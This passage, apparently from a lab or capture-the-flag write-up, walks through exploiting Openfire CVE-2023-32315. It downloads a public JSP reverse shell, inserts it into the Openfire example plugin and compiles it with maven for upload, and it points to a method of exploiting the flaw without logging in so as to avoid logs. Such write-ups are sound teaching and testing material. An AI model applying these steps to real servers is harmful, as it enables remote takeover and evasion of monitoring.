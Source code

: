 
### Discovering we can upload plugins: {#discovering-we-can-upload-plugins}

Looking around we can see we can upload plugins in the `.jar` format, which means it should, in theory, be possible to upload shell of some sort.

-   {{< figure src="/ox-hugo/2025-04-21-105604_.png" >}}

After some searching online this page details exploiting this specific vulnerability so we can follow this.

-   <https://vulncheck.com/blog/openfire-cve-2023-32315>
-   +Note+: I would encourage reading this as it actually details how to perform the exploit without logging in as a means to avoid logs. It takes advantage of the same CVE-2023-32315 vulnerability to directly upload a malicious plugin.


### Creating a malicious reverse shell plugin for OpenFire: {#creating-a-malicious-reverse-shell-plugin-for-openfire}

After some searching online we can find a public java reverse shell

```shell
wget https://raw.githubusercontent.com/LaiKash/JSP-Reverse-and-Web-Shell/refs/heads/main/shell.jsp
```

-   <https://gist.github.com/caseydunham/53eb8503efad39b83633961f12441af0>

All we have to do is modify the Port &amp; IP.

-   {{< figure src="/ox-hugo/2025-04-21-104330_.png" >}}

Next we download the example plugin repo from OpenFire.

```shell
git clone https://github.com/igniterealtime/openfire-exampleplugin.git
```

We copy the `shell.jsp` to `exampleplugin-page.jsp` location for compilation

```shell
cp ../shell.jsp ./src/main/web/exampleplugin-page.jsp
```

We will need to install apache maven to compile this exploit, so if you don't have it already run the below to install it.

```shell
sudo apt update && sudo apt install maven -y
```

Now we need to create the package.

```shell
mvn -B package
```

Once complete you should get a successful build message:

-   {{< figure src="/ox-hugo/2025-04-21-105138_.png" >}}
    -   +Note+: There will most likely be ALOT of output here as maven will download the relevant dependencies etc **so be patient**.
